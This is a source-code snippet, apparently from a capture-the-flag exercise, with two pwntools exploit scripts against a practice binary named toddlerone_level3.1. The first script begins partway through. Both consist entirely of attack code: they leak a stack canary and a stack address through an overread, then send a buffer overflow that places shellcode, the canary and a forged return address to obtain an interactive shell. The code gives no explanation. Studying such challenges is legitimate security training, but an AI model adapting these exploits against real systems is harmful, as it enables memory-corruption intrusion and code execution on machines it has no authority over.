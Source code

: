 ```python
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
stack_value = response[64:].ljust(8, b'\x00')
stack_value = u64(stack_value)
print(f"stack_value: {p64(stack_value)}")

return_address = p64(stack_value - 0x90 - 0x90 - 0x40)

real_payload_size = 56 + 8 + 8 + 8
p.recvuntil("Payload size: ")
p.sendline(f"{real_payload_size}")
shellcode_file = open("/home/hacker/exploit/level3/shellcode.bin", "rb")
shellcode = shellcode_file.read()
shellcode_size = len(shellcode)
real_payload = shellcode + (56 - shellcode_size)*b'A' + canary_value + 8*b'A' + return_address
p.send(real_payload)

p.interactive()



from pwn import *

elf = ELF("/challenge/toddlerone_level3.1")

p = process("/challenge/toddlerone_level3.1")
p.recvuntil("Payload size: ")

init_payload_size = 0x60 - 8 + 1
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
canary_value = response[init_payload_size:init_payload_size+7].rjust(8, b'\x00')
canary_value = p64(u64(canary_value))
print(f"canary_value: {canary_value}")

p.recvuntil("Payload size: ")
p.sendline(f"{init_payload_size}")
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
stack_value = response[init_payload_size+7:].ljust(8, b'\x00')
stack_value = u64(stack_value)
print(f"stack_value: {p64(stack_value)}")

return_address = p64(stack_value - 0xB0 - 0xB0 - 0x60)

real_payload_size = (0x60-8) + 8 + 8 + 8
p.recvuntil("Payload size: ")
p.sendline(f"{real_payload_size}")
shellcode_file = open("/home/hacker/exploit/level3/shellcode.bin", "rb")
shellcode = shellcode_file.read()
shellcode_size = len(shellcode)
real_payload = shellcode + ((0x60-8) - shellcode_size)*b'A' + canary_value + 8*b'A' + return_address
p.send(real_payload)

p.interactive()

```